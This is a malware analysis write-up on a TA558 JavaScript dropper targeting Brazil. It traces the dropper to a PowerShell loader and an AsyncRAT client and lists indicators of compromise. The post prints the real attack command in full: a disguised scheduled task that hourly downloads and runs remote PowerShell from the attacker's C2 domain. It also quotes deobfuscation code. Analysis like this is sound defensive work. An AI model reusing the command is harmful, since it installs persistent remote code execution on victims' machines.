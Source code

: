 ```yaml
---
title: TA558 Targeting Brazil 
date: 2024-08-26 18:55:00 +0800
categories: [Malware,APT,TA558,Javascript,Dropper,AsyncRAT]
tags: [APT,TA558]
---
```


### Introduction
While browsing Bazaar, I stumbled upon a JavaScript sample that piqued my interest, as I've never analyzed one before. Like any curious mind, I downloaded the sample, and it turned out to be one of the most intriguing pieces of code I've examined in a while. This sample is related to TA558, a financially-motivated cybercrime actor primarily targeting the hospitality and travel sectors, especially in Latin America. This current sample has a hijacked C2 domain based in Brazil.

![Brazil](https://i.kym-cdn.com/entries/icons/mobile/000/043/545/cover1.jpg "Brazil")

### JavaScript Analysis
![JS](https://cdn-images-1.medium.com/v2/resize:fit:800/1*kvbrteImG7-Voyyaz6zF2Q.png "JS")

Upon opening the JS file, it initially appears obfuscated, but it's merely a variable named "Microsoft" repeated 1,059 times. After removing the redundant variable and cleaning up the empty lines using regex in VS Code, the script becomes much easier to work with.

![JS](https://cdn-images-1.medium.com/v2/resize:fit:800/1*aKNGcrkuUnU2DwnqxBae5w.png "JS")

Concatenating the strings reveals the following key operations:

- **CDT9...b10b5:** `m.New.WebClient).DownloadString('https://detail-booking.com.br/top.pdf')`
- **codigo2:** `schtasks /create /tn 'MicrosoftEdgeUpdateTaskMachineCoreIE' /tr cmd /c start /min powershell.exe -nologo -command 'iex ((New-Object System.Net.WebClient).DownloadString('https://detail-booking.com.br/top.pdf'))' /SC HOURLY /mo 3 /f`

The main payload executed by the script is:

```powershell
powershell.exe -noexit -ExecutionPolicy Bypass schtasks /create /tn 'MicrosoftEdgeUpdateTaskMachineCoreIE' /tr cmd /c start /min powershell.exe -nologo -command 'iex ((New-Object System.Net.WebClient).DownloadString('https://detail-booking.com.br/top.pdf'))' /SC HOURLY /mo 3 /f
```

The script accomplishes two primary goals:

1. **Fake Popup Creation:** Displays a misleading message, "The file cannot be executed," giving the false impression that the file's execution was blocked for security reasons.
2. **Scheduled Task Creation:** Sets up a task named 'MicrosoftEdgeUpdateTaskMachineCoreIE' that runs every three hours. This task executes a PowerShell command that:
   - Bypasses the execution policy.
   - Downloads a file (`top.pdf`) from `https://detail-booking.com.br`.
   - Executes the downloaded file using PowerShell.

### PDF Analysis
As suspected, the PDF file is not actually a PDF but a PowerShell script. It begins by setting the execution policy to bypass mode, allowing the script to run without restrictions. The script decodes obfuscated binary data into a .NET assembly, which is loaded into memory and executed using system executables like RegSvcs.exe and Msbuild.exe. The script is designed to delete itself after execution.

![PS](https://cdn-images-1.medium.com/v2/resize:fit:800/1*c2C-keeHpI-0JaweopL1Iw.png "PS")

Interestingly, the decryption function is named **kimkarden**, which might be a playful nod to the Kardashians.

The **kimkarden** function decodes an obfuscated binary string into a byte array, which is then used to execute further code. It pads the binary string to ensure it's a multiple of 8 bits, splits it into 8-bit chunks, converts these chunks into bytes, and returns the decoded data. This process transforms encoded data into executable code.

```powershell
$pinch = $binaryData1.split('O')[1].split('l')[0]
$rPinchr = -join $pinch[-1..-($pinch.Length)]
$pinchs = $rPinchr.replace('*', '000000000000000000').replace('-', '111').replace('!', '1000000').replace('^', '100000')
```

- The first line extracts a specific substring from the variable `binaryData1`.
- The second line reverses the extracted substring.
- The third line converts the reversed string into a binary format, preparing it for further decoding.

The next lines decode two different sets of obfuscated binary data, resulting in two byte arrays: **$data1** and **$data2**.

![MS](https://cdn-images-1.medium.com/v2/resize:fit:800/1*QR7rlhptaGlDFaR-XlSI9w.png "MS")

- The assembly from **$data1** is loaded into the variable **${I}**.
- The variable **${E}** encapsulates operations designed to execute a payload using .NET tools, manipulating executable paths and data dynamically.

To extract and analyze these binaries, you can remove the **${E}** method and write them to a location for further investigation.

### Dropped File
After dumping the files, it becomes clear that **$data1** is a helper DLL, and **CDTMUTHALHAI** is the infamous AsyncRAT client. Opening the DLL in dnSpy reveals that it is obfuscated, likely requiring tools like de4dot for deobfuscation.

| DLL | AsyncRAT Client |
|---|---|
| ![DLL](https://cdn-images-1.medium.com/v2/resize:fit:800/1*P6wloBIElNe-j-1_7xAPYQ.png "DLL") | ![ARC](https://cdn-images-1.medium.com/v2/resize:fit:800/1*Gr2HJkrm4cmKMAQbeJzktA.png "ARC") |

![NET](https://cdn-images-1.medium.com/v2/resize:fit:800/1*Wfh6vTNDCdPAFiIaL0v-Ww.png "NET")

- The method named **C** in the DLL is called to run **${V4}, ${V2}, and ${V3}**, which are placeholders for Regsvcs.exe and Msbuild.exe. The method **C** runs a loop for five iterations, calling the function **smethod_2** to dynamically load and execute code from binary data using these executables.

![C](https://cdn-images-1.medium.com/v2/resize:fit:800/1*baYRlUXUe9vXx879PttepQ.png "C")
![smethod](https://cdn-images-1.medium.com/v2/resize:fit:800/1*vbbL_cRIs0cK27uOG55Slw.png "smethod")

- **smethod_2** is a crucial function that ensures the executable operates with the provided binary data, eventually running the AsyncRAT client.

The AsyncRAT client code shows typical behavior with some modifications, including the presence of Chinese characters, likely intended to mislead analysts. However, the targeting of Latin America and the origin of the threat actors seem clear.

# Relations
![Rel](https://cdn-images-1.medium.com/v2/resize:fit:800/1*-pgb6W87JKlaOtDJEmFCYw.png "Rel")

- If you closely look at all these domains you would find these domains have previously been used to host or as C2 for different malware targetting Brazil similarly.
![Rel](https://cdn-images-1.medium.com/v2/resize:fit:800/1*FDNpP2D__kp_IcPxmfUJKw.png "Rel")
- Moreover if you look at these samples you can find that these samples are attributed somehow to a threat actor using Phising as initial way to get in similarly how we see right now and the TTPs also match
![Ref](https://cdn-images-1.medium.com/v2/resize:fit:800/1*bLiyvmP6NdPFHbOD0P2Pdg.png "Ref")

### IOC
```
MD5
878a39b1a17ad10ed89c87508db353c0
SHA-1
ed51f59febba6bd664cd888663706c792095b15d
SHA-256
a7d66996766f77003618bcd786611e68d19e41a4777a7854b5936fcc02e9f349 
RoomingList Equipo Miguel y Chino Joseph Santiago js.js



 DOMAIN
	detail-booking[.]com[.]br
	detail-booking[.]com[.]br/top.pdf

IP
	187.17.111.35
```
[Virustotal](https://www.virustotal.com/gui/file/a7d66996766f77003618bcd786611e68d19e41a4777a7854b5936fcc02e9f349)

[AnyRun](https://app.any.run/tasks/c7240dfe-b9b1-4ebd-957f-ab6847a985bd)

[Bazaar](https://bazaar.abuse.ch/sample/a7d66996766f77003618bcd786611e68d19e41a4777a7854b5936fcc02e9f349/)

Thank You for reading this till the end ❤

Discord somedieyoungzz

Twitter https://twitter.com/IdaNotPro


